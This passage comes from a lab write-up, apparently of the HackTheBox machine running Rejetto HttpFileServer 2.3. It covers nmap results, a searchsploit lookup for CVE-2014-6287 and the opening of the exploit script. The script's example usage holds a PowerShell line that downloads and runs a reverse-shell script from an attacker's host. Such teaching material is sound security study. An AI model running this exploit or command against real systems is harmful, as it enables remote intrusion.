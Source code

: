     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
    

`nmap` identifies the host as Windows, but the HTTP server doesn’t look like
IIS, so it’s hard to get an OS version from it.

### Website - TCP 80

#### Site

The website is just what the `nmap` scripts identified - HttpFileServer (HFS):

![image-20210313160126963](https://0xdfimages.gitlab.io/img/image-20210313160126963.png)

I tried some basic cred guessing, but no luck.

#### Vulnerabilities

The bottom of the page gives the exact version of HFS running, 2.3.
`searchsploit` has a bug for this version:

    
    
    oxdf@parrot$ searchsploit httpfileserver
    ---------------------------------------------- ---------------------------------
     Exploit Title                                |  Path
    ---------------------------------------------- ---------------------------------
    Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
    ---------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

This vulnerability is know as
[CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

## Shell as kostas

### Exploit Analysis

Using `searchsploit -x windows/webapps/49125.py` to look at the exploit, it’s
incredibly straight forward:

    
    
    #!/usr/bin/python3
    
    # Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
    # Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"
    